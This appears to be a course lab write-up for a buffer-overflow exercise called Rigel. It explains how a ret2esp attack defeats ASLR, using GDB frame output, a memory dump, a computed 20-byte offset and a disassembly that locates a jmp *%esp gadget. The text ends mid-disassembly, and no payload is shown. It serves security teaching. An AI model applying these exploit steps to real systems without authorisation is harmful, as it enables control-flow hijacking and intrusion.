 # Question 7: Rigel Write-up
## Main Idea
#### (A description of the vulnerability)
This code is vulnerable because it contains the address of ```jmp    *%esp``` inside the ```magic``` function which reveals the secret ingredient to ```ret2esp``` attack. 

Address space layout randomization (ASLR) is enabled, however, we were able to get around it with ```ret2esp``` attack.

## Magic Numbers
#### (How any relevant “magic numbers” were determined, usually with GDB)
We first determined the address of ```buf``` (0xffe8d588) and the address of rip of ```orbit``` function (0xffe8d59c). This was done by invoking GDB and setting a breakpoint at line 13. 
```
(gdb) i f
Stack level 0, frame at 0xffe8d5a0:
 eip = 0x804922a in orbit (orbit.c:13); saved eip = 0x8049247
 called by frame at 0xffe8d5b0
 source language c.
 Arglist at 0xffe8d598, args:
 Locals at 0xffe8d598, Previous frame's sp is 0xffe8d5a0
 Saved registers:
  ebp at 0xffe8d598, eip at 0xffe8d59c
(gdb) x/16x buf
0xffe8d588:     0x00000000      0x00000000      0x00000000      0x00000000
0xffe8d598:     0xffe8d5a8      0x08049247      0x00000001      0x0804923c
0xffe8d5a8:     0xffe8d62c      0x08049415      0x00000001      0xffe8d624
0xffe8d5b8:     0xffe8d62c      0x0804a000      0x00000000      0x00000000
```
ASLR randomizes the addresses, however, the relative distance between the rip of ```orbit``` function and ```buf``` stays the same. By finding out the addresses, we learned that ```buf``` is 20 bytes below rip of ```orbit``` (0xffe8d59c - 0xffe8d588 = 14 in hex = 20 in decimal).

We then determined the address of ```jmp *%esp``` (0x080491fd). This was done through invoking GDB and using gdb command ```disas```.
```
(gdb) disas magic
Dump of assembler code for function magic:
   0x080491e5 <+0>:     push   %ebp
   0x080491e6 <+1>:     mov    %esp,%ebp
   0x080491e8 <+3>:     mov    0xc(%ebp),%eax
   0x080491eb <+6>:     shl    $0x3,%eax
   0x080491ee <+9>:     xor    %eax,0x8(%ebp)
   0x080491f1 <+12>:    mov    0x8(%ebp),%eax
   0x080491f4 <+15>:    shl    $0x3,%eax
   0x080491f7 <+18>:    xor    %eax,0xc(%ebp)
   0x080491fa <+21>:    orl    $0xe4ff,0x8(%ebp)
   0x08049201 <+28>:    mov    0xc(%ebp),%ecx
   0x08049204 <+31>:    mov    $0x3e0f83e1,%edx
   0x08049209 <+36>:    mov    %ecx,%eax
   0x0804920b <+38>:    mul    %edx
   0x0804920d <+40>:    mov    %edx,%eax
   0x0804920f <+42>:    shr    $0x4,%eax
   0x08049212 <+45>:    imul   $0x42,%eax,%edx
   0x08049215 <+48>:    mov    %ecx,%eax
   0x08049217 <+50>:    sub    %edx,%eax
   0x08049219 <+52>:    mov    %eax,0xc(%ebp)
   0x0804921c <+55>:    mov    0x8(%ebp),%eax
   0x0804921f <+58>:    and    0xc(%ebp),%eax
   0x08049222 <+61>:    pop    %ebp
```